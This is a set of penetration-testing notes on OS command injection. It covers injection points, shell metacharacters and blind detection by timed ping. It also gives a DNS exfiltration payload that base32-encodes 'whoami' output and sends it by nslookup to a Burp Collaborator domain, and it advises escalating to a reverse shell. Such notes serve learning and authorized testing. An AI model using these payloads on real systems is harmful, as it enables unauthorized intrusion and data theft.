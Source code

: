 # Cmd Injection

## Where Would You Find Command Injection

* In the following places:
* Text boxes that take in input
* Hidden URLs that take input
* E.g. `/execute/command-name`
* Or through queries e.g. `/location?parameter=command`
* When using URLs, remember to URL encode the characters that aren’t accepted
* Hidden ports:
* Some frameworks open debug ports that take in arbitrary commands

### Overview

* Use command line symbols within the input to alter the executed command
* Pay close attention to functions within an application that tend to be performed by an OS command
* Two forms exist, blind command injection --> you do not see the returned output, and non-blind cmd injection --> the system command output gets returned back to you
* Ensure you use the proper system commands per the OS

```
cat vs type 
ping -c vs ping -n #ping -n causes an infinte ping loop in linux
ls vs dir
```

* Try to start with reading a world readable file&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Non-Blind CMD Inj.

* At the most basic level:
* Use command line symbols within the input to alter the executed command
* Once you have identified a potential injection point, use command line symbols within the input to alter the executed command&#x20;

```
; | || & && > >>
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

* Once you have exploited non-blind cmd injection, escalate to a reverse shell.

### Blind CMD Injection

#### Identification

* ICMP and DNS are useful to determine blind cmd injection&#x20;

```
google.com; ping -c11 127.0.0.1 #server will hang for roughly 10 seconds
```

* Can also try to ping yourself, however many corporate environments have firewalls in place to stop this, so doesn't always mean blind cmd injection isn't taking place&#x20;
* Use `tcpdump` to capture the `icmp` echo requests.

<figure><img src="../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

* This proves blind cmd injection, escalate to reverse shell

### Burp Collaborator

* Launch Burp, and choose:

![](<../.gitbook/assets/image (1) (1).png>)

```
Burp --> Burp Collaborator Client
Press --> "Copy to Clipboard" #to copy a randomly generated domain name
Execute your cmd injection
```

* Press `Poll Now` to see if the request came through&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* If the above worked, move down to Data Exfil section

### **Data Exfil via DNS and Burp Collaborator**&#x20;

* Once you have your Burp Collaborator Domain, try your command injection&#x20;

```
google.com; a=$(whoami|base32|tr -d =); nslookup $a.COLLAB_DOMAIN_NAME.com
```

* Press Poll now and you should have something returned like this:

```
O53XOLLEMF2GCCQ.323lijijf90304jklksjru43k23.oastify.com
```

* Then type the following in your local terminal&#x20;

```
echo -n O53XOLLEMF2GCCQ | wc -c
```

* If this fails as `Invalid Base32` add 1, or 2 equal signs at the end for padding

```
echo -n O53XOLLEMF2GCCQ= | base32 -d
#output:
www-data
```
